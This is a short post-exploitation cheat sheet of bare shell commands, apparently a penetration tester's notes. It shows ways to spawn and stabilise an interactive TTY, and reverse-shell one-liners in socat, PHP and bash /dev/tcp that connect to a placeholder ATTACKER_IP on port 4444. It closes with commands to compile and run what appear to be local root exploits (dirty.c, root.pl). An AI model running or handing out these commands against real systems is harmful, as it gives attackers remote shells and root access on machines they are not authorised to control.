 what are you doing here bro?? nothing interesting here!

python -c 'import pty; pty.spawn("/bin/bash")'

python3 -c 'import pty; pty.spawn("/bin/bash")'

/bin/bash -i

perl -e 'exec "/bin/bash";'

ruby -e 'exec "/bin/bash"'

lua -e 'os.execute("/bin/bash")'

socat file:`tty`,raw,echo=0 tcp-listen:1337

socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:ATTACKER_IP:4444

echo 'sh -i' > /tmp/shell.sh
java -cp /tmp -Djava.security.manager=AllowAllSecurityManager -Djava.security.policy=/tmp/policy.policy Shell

php -r '$sock=fsockopen("ATTACKER_IP",4444);exec("/bin/bash -i <&3 >&3 2>&3");'

script /dev/null -c "/bin/bash"

script /dev/null

export TERM=xterm

/bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'

stty raw -echo
fg

gcc -pthread dirty.c -o dirty -lcrypt

perl root.pl [ip] [port]
